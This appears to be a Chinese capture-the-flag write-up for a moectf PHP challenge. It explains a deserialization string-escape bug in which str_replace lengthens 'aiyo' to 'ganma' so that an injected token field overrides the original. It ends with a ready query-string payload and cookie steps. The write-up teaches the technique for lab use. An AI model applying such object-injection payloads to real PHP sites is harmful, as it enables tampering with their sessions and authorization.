 `$emo = str_replace('aiyo', 'ganma', serialize($moe));`

看到这一句就能发现很明显的**反序列化字符串溢出**了

原本这样的序列化字符串

```php
O:6:"moectf":3:{s:1:"a";s:1:"a";s:1:"b";s:136:"baiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyo";s:5:"token";s:5:"baizi";}";s:5:"token";s:5:"heizi";}
```

![image-20221015210354307](moectf.assets/image-20221015210354307.png)

箭头指的是**string b**的开头和结尾

经过**str_replace**后

```php
s:210:"O:6:"moectf":3:{s:1:"a";s:1:"a";s:1:"b";s:136:"bganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganma";s:5:"token";s:5:"baizi";}";s:5:"token";s:5:"heizi";}";
```

aiyo变成了ganma，字符串变长，但代表字符串长度的136仍未变

该字符串在经历反序列化时，只会取到第136位(也就是第一个箭头处)

![image-20221015210643121](moectf.assets/image-20221015210643121.png)

而第二个箭头后的会被当做多余的丢弃

![image-20221015211045354](moectf.assets/image-20221015211045354.png)

payload

```php
?r=a&s=baiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyo";s:5:"token";s:5:"baizi";}
新增cookie moe=1
然后访问a.php
```
